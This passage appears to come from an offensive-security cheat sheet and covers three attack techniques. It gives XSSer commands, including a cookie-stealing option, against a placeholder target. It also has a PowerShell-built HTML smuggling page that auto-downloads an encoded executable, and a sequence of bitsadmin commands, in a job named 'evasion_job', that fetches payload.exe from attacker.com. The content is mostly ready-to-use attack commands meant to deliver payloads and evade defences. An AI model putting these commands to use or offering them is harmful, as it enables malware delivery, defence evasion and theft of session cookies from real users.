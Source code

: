 
## 11. Through Content and XSS Attack - XSSer

```bash
# Basic XSS testing
xsser --url "http://target.com/search.php?q=XSS"

# POST method XSS
xsser --url "http://target.com/login.php" --data "user=admin&pass=XSS"

# Cookie stealing XSS
xsser --url "http://target.com/page.php?id=1" --cookie

# Advanced XSS with payloads
xsser --url "http://target.com/search.php?q=XSS" --payload "alert(1)"
```

---

## 12. Through HTML Smuggling - PowerShell

```powershell
# Basic HTML smuggling payload
$html = @"
<html><script>
var file = new Blob([atob('BASE64_ENCODED_EXE')], {type: 'application/octet-stream'});
var a = document.createElement('a');
a.href = URL.createObjectURL(file);
a.download = 'file.exe';
a.click();
</script></html>
"@

$html | Out-File -FilePath "smuggle.html"
```

---

## 13. Through Windows BITS - Bitsadmin

```cmd
REM Create download job
bitsadmin /create evasion_job

REM Add file to job
bitsadmin /addfile evasion_job http://attacker.com/payload.exe C:\temp\payload.exe

REM Set priority
bitsadmin /setpriority evasion_job HIGH

REM Resume job
bitsadmin /resume evasion_job

REM Monitor progress
bitsadmin /info evasion_job

REM Complete job
bitsadmin /complete evasion_job
```
